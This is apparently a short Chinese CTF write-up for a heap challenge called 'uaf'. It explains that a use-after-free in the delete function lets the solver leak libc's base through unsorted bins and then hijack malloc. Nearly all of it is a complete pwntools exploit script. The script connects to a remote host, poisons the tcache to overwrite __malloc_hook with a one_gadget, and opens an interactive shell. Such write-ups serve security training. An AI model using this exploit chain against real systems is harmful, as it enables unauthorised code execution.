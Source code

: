 dele函数有uaf漏洞

直接通过unsorted bins泄露libc基址然后打uaf劫持malloc

上代码

```
from pwn import *
#io = process('./uaf')
io = remote('47.97.58.52',44000)
libc = ELF('libc.so.6')
context(os = 'linux',arch='amd64',log_level='debug')
def add(index,size,content):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter size: ',str(size).encode())
    io.sendafter(b'Enter data: ',content)
def dele(index):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter index: ',str(index).encode())
def show(index):
    io.sendafter(b'>> ',b'3')
    io.sendafter(b'Enter index: ',str(index).encode())
def edit(index,content):
    io.sendafter(b'>> ',b'4')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter data: ',content)
add(8,0x100,p64(0))
for i in range(7):
   add(i,0x100,p64(0))
for i in range(7):
   dele(i)
dele(8)
#gdb.attach(io)
#pause()
show(8)
io.recvuntil(b'Data: ')
addr = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
libc_base = addr - 0x7d43a8121be0 + 0x7d43a7f35000
print(hex(libc_base))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
add(9,0x70,p64(0))
add(10,0x70,p64(0))
add(11,0x70,p64(0))
dele(9)
dele(10)
dele(11)
edit(11,p64(malloc_hook))
gadget1 = libc_base + 0xe3afe
gadget2 = libc_base + 0xe3b01
add(12,0x70,b'12')
add(13,0x70,p64(gadget2))
print(hex(malloc_hook))
print(hex(gadget1))
#gdb.attach(io)
#pause()
io.sendafter(b'>> ',b'1')
io.sendafter(b'Enter index: ',b'14')
io.sendafter(b'Enter size: ',b'0x70')
io.interactive()
```
